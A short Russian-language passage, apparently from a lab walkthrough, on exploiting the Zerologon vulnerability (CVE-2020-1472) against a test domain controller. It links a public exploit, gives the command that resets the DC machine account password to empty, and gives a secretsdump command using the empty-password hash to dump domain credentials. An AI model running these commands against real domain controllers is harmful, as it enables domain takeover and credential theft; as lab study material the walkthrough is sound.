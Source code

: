 Здесь точное описание эксплоита:

[https://github.com/VoidSec/CVE-2020-1472](https://github.com/VoidSec/CVE-2020-1472)

Перед реализацией необходимо предварительно сделать Snapshot вашего DC.

**python3 set_empty_pw.py DC1 192.168.10.200**

![Untitled](images/Untitled%2029.png)

Тут мы сбросили пароль для машинной УЗ DC до пустой строки.

Далее в README мы нашли дальнейший вектор:

**secretsdump.py -hashes :31D6CFE0D16AE931B73C59D7E0C089C0 ‘cyber-ed/DC1$@192.168.10.200’**

![Untitled](images/Untitled%2030.png)
